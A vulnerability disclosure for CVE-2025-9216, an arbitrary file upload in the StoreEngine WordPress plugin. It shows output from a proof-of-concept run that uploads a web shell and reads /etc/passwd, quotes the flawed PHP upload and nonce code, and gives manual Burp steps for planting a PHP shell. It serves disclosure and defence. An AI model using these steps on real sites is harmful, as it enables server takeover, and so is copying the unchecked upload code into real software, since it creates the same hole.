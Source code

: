 +++
title = 'StoreEngine – Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Upload'
date = 2025-09-16T00:01:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "StoreEngine"]
+++
### CVE-2025-9216

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in it's CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to upload arbitrary files and gain remote code execution. The vulnerability stems from two security flaws: (1) the CSV import endpoint lacks proper file validation checks, permission checks, and only relies on nonce verification for security, and (2) the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This combination allows any authenticated user to extract the nonce from frontend pages and use it to upload PHP web shells via the `storeengine_csv/import` endpoint, effectively granting subscriber+ users the ability to execute arbitrary code on the server.

## TL;DR Exploits
* A POC [CVE-2025-9216.py](https://github.com/d0n601/CVE-2025-9216/blob/master/CVE-2025-9216.pyy) is provided to demonstrate an administrator uploading a web shell named `omg.php`.
  
```console
python3 ./CVE-2025-9216.py http://localhost:1337 user1 password
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: ff15beb1bd
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
Uploading web shell: omg.php
File upload response: {"success":true,"data":{"filename":"omg.php"}}

Web Shell At: http://localhost:1337/wp-content/uploads/storeengine_uploads/csv/omg.php

Executing test command: cat /etc/passwd
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

```

## Details  

### **Vulnerable File Upload Function**
The `storeengine_csv/import` AJAX action calls the `import()` function on line [51](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/import.php#L51) of `/wp-content/plugins/storeengine/addons/csv/ajax/import.php`, which lacks proper permission checks and file type validation:

```php
public function import() {
    if ( ! isset( $_FILES['file'] ) ) {
        wp_send_json_error( 'No file uploaded.' );
    }

    $file   = $_FILES['file'];
    $folder = Helper::get_upload_dir() . '/csv/';

    if ( ! file_exists( $folder ) ) {
        wp_mkdir_p( $folder );
    }

    $filename = sanitize_file_name( $file['name'] );
    $target   = trailingslashit( $folder ) . $filename;

    if ( ! move_uploaded_file( $file['tmp_name'], $target ) ) {
        wp_send_json_error( 'Failed to move uploaded file.' );
    }

    wp_send_json_success( [
        'filename' => $filename,
    ] );
}
```

The function only uses `sanitize_file_name()` to clean the filename but does not perform any file type validation or capability checks. This allows uploading any file type, including PHP files that can be executed by the web server.

### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```


This combination allows any authenticated user to upload arbitrary files, including PHP web shells for remote code execution.



## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Import section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Attempt to upload a file and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/import` action.
5. Modify the request to include an arbitrary file, in the example below we're uploading a PHP web shell.
6. Send the request and receive `{"success":true,"data":{"filename":"shell.php"}}`.
7. Browse the web shell at `https://example.com/wp-content/uploads/storeengine_uploads/csv/shell.php` and execute code.